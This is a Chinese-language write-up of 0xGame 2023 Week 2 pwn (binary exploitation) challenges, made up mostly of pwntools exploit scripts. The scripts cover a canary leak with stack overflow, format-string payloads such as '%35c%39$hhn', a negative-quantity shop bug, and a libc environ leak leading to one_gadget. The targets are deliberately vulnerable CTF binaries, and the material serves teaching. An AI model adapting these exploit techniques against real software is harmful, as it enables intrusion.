 # 0xGame 2023 Week2 Pwn WP

## 滑跪

看第一周校内没人打第二周前一天晚上紧急出了几个送分题，然后出了各种岔子，给各位师傅带来不好的体验实在抱歉。

## calc

没啥好说的，python和pwntools使用。

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#s=process("../dist/pwn")
s=remote("8.130.35.16",55001)
for i in range(100):
    s.recvuntil(b"====\n")
    a=int(s.recvuntil(b"+")[:-1])
    b=int(s.recvuntil(b"=")[:-1])
    #print(f"{a}+{b}={a+b}")
    s.sendline(str(a+b).encode())
s.interactive()
```

## ezshop

> 写wp的时候才想到买东西直接++而不是+cnt，我是铸币

减法，而且cnt没查负数，看有没有还只是查0。

直接买-1个收工。

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
s=process("../dist/pwn")
s.sendlineafter(b">> ",b"1")
s.sendlineafter("？\n".encode(),b"3")
s.sendlineafter("？\n".encode(),b"-1")
s.sendlineafter(b">> ",b"2")
s.interactive()
```

## ezcanary

> 本来这道题应该是这样的
>
> ```c
> char binsh[]="/bin/sh";
> void backdoor() {
>     system("echo 'No backdoor!'");
> }
> ```
>
> 需要写一小段ROP，但改完push回ci的时候忘记先编译了。结果直接ret2backdoor了。
>
> 前一天照着新程序写的exp结果没打通想着留到第二天再打，没想到直接放的旧附件，也就有了week2-day1的那一出反复横跳的闹剧。

覆盖低位canary的0带出来canary，然后在下一步的栈溢出写回去。

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#s=remote("8.130.35.16",55000)
elf=ELF("../dist/pwn")
s=process("../dist/pwn")
rdi=0x40138b
binsh=0x404068
system=0x401050
backdoor=elf.sym.backdoor
s.sendafter(b"Ur name plz?\n",b"a"*0x19)
s.recvuntil(b"a"*0x19)
canary=u64(b"\x00"+s.recv(7))
success(hex(canary))
s.sendafter(b"right?",b"Y")
s.sendafter(b"plz.\n",flat([
    b"a"*0x18,canary,0x404500,backdoor
]))
s.interactive()
```

## fmt1

修改栈上变量，只需要改1byte，还有指向它的指针。

一行解决。

```py
payload="%35c%39$hhn"
```

有人来问fmt顺手想到一个非预期，反正在8bytes以内，那直接都清零不就得了。

当然如果改成两个`unsigned long long`应该就能防住了吧。

```py
payload="%39$lln
```

## fmt2

修改bss上变量，不过给了循环。

可以一点一点改，也可以直接构造一长串（

后期基本都要自动化构造了，比如用fmt写ROP链之类的。可以试试自己写一版。

```py
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
#s=process('../dist/fmt2')
s=remote("192.168.3.253",52001)
#pause()
s.sendlineafter(b"content: ",b"%33$p")
elf_base=eval(s.recv(14))-0x1280
target=elf_base+0x4048
p=f"%{0xef}c%12$hhn%{0x100-0xef+0xbe}c%13$hhn%{0x100-0xbe+0xad}c%14$hhn%{0xde-0xad}c%15$hhna".encode()
for i in range(4):
    p+=p64(target+i)
s.sendafter(b"content: ",p)
s.interactive()
```

## leak-env

environ中存放着栈相关地址，gdb挂上调一下就能知道跟当前函数栈底差多少。

还给了0x30的任意写，直接打`one_gadget`或者`system("/bin/sh")`

```py
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
libc=ELF("../dist/libc.so.6")
#s=process("./leakenv")
s=remote("192.168.3.253",52003)
s.recvuntil(b"Here's your gift: ")
libc.address=eval(s.recvline()[:-1])-libc.sym.printf
environ=libc.sym.__environ
s.sendlineafter(b"read?",hex(environ)[2:].encode())
s.recvuntil(b"Here you are: ")
stack=u64(s.recv(8))
target=stack-0x100
s.sendlineafter(b"it?",hex(target)[2:].encode())
s.sendafter(b"it.\n",flat([
    0x0000000000023b63+libc.address,0,0,0,0,
    libc.address+0xe3afe,
]))
s.interactive()
```